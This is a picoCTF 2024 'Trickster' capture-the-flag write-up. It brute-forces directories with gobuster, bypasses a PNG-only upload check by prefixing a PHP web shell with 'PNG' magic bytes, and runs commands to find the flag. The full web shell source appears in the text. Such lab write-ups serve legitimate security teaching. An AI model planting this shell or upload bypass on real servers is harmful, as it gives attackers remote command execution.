

# picoCTF 2024: Trickster
---
Tags: Web Exploration, browser_webshell_solvable


### Description
I found a web app that can help process images: PNG images only!

---
From the challenge link, we are directed to an image upload features website


---
Here, we are using "Gobuster-tool" to peform **URLs and DNS brute force attack** for extracting directories and files form inside URLs and sub-domains.   

```
gobuster dir -u http://atlas.picoctf.net:58140 -w /usr/share/wordlists/dirb/common.txt
```

gobuster *dir* *-\<options(target_url)>* *\<url>* -*\<options(wordlist_path)>* *\<path>*  


We head to /robots.txt and it leads me to /instructions.txt  
  
The /instructions.txt  
  
- From /instructions.txt, we know that the file we upload needs to have .png extension and the first few bytes contain 'PNG' magic bytes in hexadecimal "50 4E 47"
- From gobuster promts, we could guess that file uploaded will be saved at /uploads folder
- By knowing these informations, we can download web shell from [easy-simple-php-webshell.php](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)
- The php webshell generate a CLI for us to execute commands on the server remotely.
- Ensure that the server do checks the first few characters to be "PNG", so we must put them at the beginning of the code:
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

---
And so I uploaded the phpWebshell.png.php file  
  
The file is successfully checked, and server tells us "We shall process it"
From the guess previously, we know that the webshell file might now be stored at  /uploads directory.

We try to access the uploaded webshell file  
  
Starting off here, we can search the flag in the system however we want, using the webshell injected, we can use the command:
```
find / -name "*.txt"
```
to search the root folder, with files that end with ".txt" extension at the server side  
  
Click on "Execute"  

  
We found the text file, try to *concatenate* it
```
cat /var/www/html/GQ4DOOBVMMYGK.txt
```
  
Click on "Execute"  

  
The flag has been found!

### Mind Map  
  
